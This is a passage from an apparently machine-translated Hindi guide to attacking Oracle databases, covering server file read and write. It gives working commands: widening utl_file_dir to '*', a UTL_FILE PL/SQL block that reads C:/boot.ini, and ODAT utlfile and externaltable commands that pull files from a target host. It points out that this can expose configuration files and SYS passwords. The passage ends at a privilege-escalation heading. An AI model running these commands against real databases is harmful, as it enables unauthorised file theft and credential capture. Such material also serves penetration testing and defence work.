 'ODAT.py' उपयोगी भी इस हमले को लागू कर सकता है। हालांकि, इसके लिए 'CREATE ANY DIRECTORY' विशेषाधिकार की आवश्यकता होती है, जो डीबीए भूमिका को ही डिफ़ॉल्ट रूप से प्रदान किया जाता है, क्योंकि यह किसी भी और नहीं, सिर्फ़ "आपके" निर्देशिका से फ़ाइल को निष्पादित करने का प्रयास करता है।

# फ़ाइल पढ़ें / लिखें

अब, फ़ाइलों को पढ़ने और लिखने के कार्य के प्रति आगे बढ़ते हैं। यदि आपको सिर्फ़ सर्वर पर एक फ़ाइल को पढ़ने या लिखने की आवश्यकता है, तो आप इसे किसी भी जावा प्रक्रिया के बिना कर सकते हैं, जो हालांकि, ऐसे कार्यों को भी संभाल सकती है। चलो 'UTL\_FILE' पैकेज में देखते हैं जिसमें फ़ाइल सिस्टम के साथ काम करने के लिए आवश्यकता होती है। अच्छी खबर यह है कि, डिफ़ॉल्ट रूप से, इसे 'PUBLIC' भूमिका वाले सभी उपयोगकर्ताओं द्वारा उपयोग किया जा सकता है। बुरी खबर यह है कि, डिफ़ॉल्ट रूप से, इस प्रक्रिया को पूरे फ़ाइल सिस्टम तक पहुंच नहीं होती है, बल्कि केवल एक निर्दिष्ट निर्देशिका तक ही, जिसे प्रशासक द्वारा पूर्व-निर्धारित किया गया है। हालांकि, यह आम बात नहीं है कि एक निर्देशिका पैरामीटर 'एस्ट्रिक्स' के रूप में निर्दिष्ट किया जाता है, जो कि शाब्दिक रूप से "सब कुछ का पहुंच" होता है। आप निम्नलिखित कमांड का उपयोग करके इसे खोज सकते हैं:
```text
select name, value from v$parameter where name = 'utl_file_dir';
With appropriate rights, you can expand the access by using the following query:
alter system set utl_file_dir='*' scope =spfile;
```
मैंने यह खोजा है कि 'UTL\_FILE' पैकेज का उपयोग करने के लिए सबसे छोटी प्रक्रिया अलेक्जेंडर पॉलियाकोव द्वारा प्रस्तावित की गई है:
```text
SET SERVEROUTPUT ON
declare
f utl_file.file_type;
sBuffer Varchar(8000);
begin
f:=UTL_FILE.FOPEN (''C:/’,'boot.ini','r');
loop
UTL_FILE.GET_LINE (f,sBuffer);
DBMS_OUTPUT.PUT_LINE(sBuffer);
end loop;
EXCEPTION
when no_data_found then
UTL_FILE.FCLOSE(f);
end;
/

```
यदि आपको लिखने की क्षमता के साथ अधिकतम कार्यक्षमता चाहिए, तो मैं 'raptor\_oraexec.sql' नामक स्क्रिप्ट को गूगल करने की सलाह देता हूँ। और परंपरा के अनुसार, यहाँ 'ODAT' यूटिलिटी का उपयोग करने के लिए एक विकल्प है, जो हमेशा की तरह सबसे संक्षेप्त है:
```text
./odat.py utlfile -s <IP> -d <SID> -U <username> -P <password> --getFile "C:/test" token.txt token.txt
```
'UTL_FILE' पैकेज भी बहुत दिलचस्प है क्योंकि अगर आपको भाग्यशाली होते हैं, तो आप लॉग, कॉन्फ़िगरेशन फ़ाइल और 'SYS' जैसे प्रिविलेज्ड अकाउंट से पासवर्ड प्राप्त कर सकते हैं।

मैं दूसरी विधि के बारे में भी बताना चाहूंगा, जो फिर से 'External Tables' का उपयोग करती है। याद रखें, 'External Tables' का उपयोग करते समय, डेटाबेस बाहरी तालिकाओं से डेटा को पढ़ने के लिए पहुंच प्राप्त कर सकती है। हैकर के लिए, यह एक और मौका है सर्वर से फ़ाइलें डाउनलोड करने का, लेकिन इस विधि के लिए 'CREATE ANY DIRECTORY' विशेषाधिकार की आवश्यकता होती है। मैं तुरंत 'ODAT' का उपयोग करने की सलाह देता हूं, क्योंकि यह स्थिर और तेज है:
```text
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --getFile "C:/test" "my4.txt" "my"
```
# उच्चाधिकार बढ़ाना

